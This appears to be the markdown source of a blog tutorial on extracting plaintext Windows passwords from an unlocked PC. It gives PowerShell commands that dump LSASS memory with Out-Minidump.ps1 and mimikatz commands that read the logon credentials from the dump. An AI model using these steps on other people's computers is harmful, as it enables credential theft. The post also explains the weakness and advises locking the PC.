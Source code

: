 ```yaml
---
layout: post
title: Getting plaintext Windows passwords on unlocked PC
description: A simple how-to article demonstrating existing vulnerability that makes your Windows passwords are hackable.
tags: [Windows, Password, Vulnerability]
comments: true
---
```


I found [this article](http://www.fixedbyvonnie.com/2015/02/hack-passwords-of-windows-in-5-minutes) mentioning the existing vulnerability in Windows PC where you can the plaintext view of your passwords on unlocked computer. So, I tried it on my Windows 10 PC and found that the vulnerability is still there. The method used here is not new at all, and anyone can perform this hacking on any unlocked Windows PC.

<hr class="break">

### Tools you need

- [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest) - just get the binary package, e.g. `mimikatz_trunk.zip`
- [Out-Minidump.ps1](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1) - PowerShell script

Download all those tools and let's start hacking!

<hr class="break">

### 1. Perform memory dump using the PowerShell script

To perform the [LSASS](https://technet.microsoft.com/en-us/library/cc961760.aspx) dump, we will use the PowerShell script - `Out-Minidump.ps1`. The flow of cmdlet will look like this:

{% include figure.html src="assets/images/1lQnyhZ.png" caption="PowerShell cmdlet" %}

```powershell
. 'G:\USERFILES\Desktop\PowerShell Playground\Out-Minidump.ps1'
# "dot sourcing" method to import function from the script

Get-Process lsass | Out-Minidump
# To perform the LSASS dump

Copy-Item .\lsass_868.dmp 'G:\USERFILES\Desktop\PowerShell Playground'
# Copy the dump file to desired location
```

### 2. View the passwords using the mimikatz terminal program

As you can see, `lsass_868.dmp` is the example of LSASS dump file captured using the PowerShell script. Now, it's time we use the mimikatz terminal to load in the dump file as follows:

```
sekurlsa::minidump "G:\USERFILES\Desktop\PowerShell Playground\lsass_868.dmp"
```

{% include figure.html src="assets/images/OPA0g0w.png" caption="mimikatz MINIDUMP" %}

Switching to MINIDUMP file, so now we can view the passwords. Now, run this command to display all the accounts and passwords available:

```
sekurlsa::logonPasswords full
```

Voila! Now, you can see your actual Microsoft Account username and password in _a plaintext view_.

{% include figure.html src="assets/images/nWPZUIR.jpg" caption="mimikatz logonPasswords" %}

<hr class="break">

### The vulnerability explanation

The fact is that the password is encrypted but it's useless as the implementation depends on two basic Win32 functions; [LsaProtectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714509%28v=vs.85%29.aspx) (the encryption function) and [LsaUnprotectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714510(v=vs.85).aspx) (the decryption function). And Windows stores encrypted user passwords in memory without using one-way hash which is decryptable using **LsaUnprotectMemory** function to a plain text.

<hr class="break">

Do not forget to lock your Windows when you leave your desk!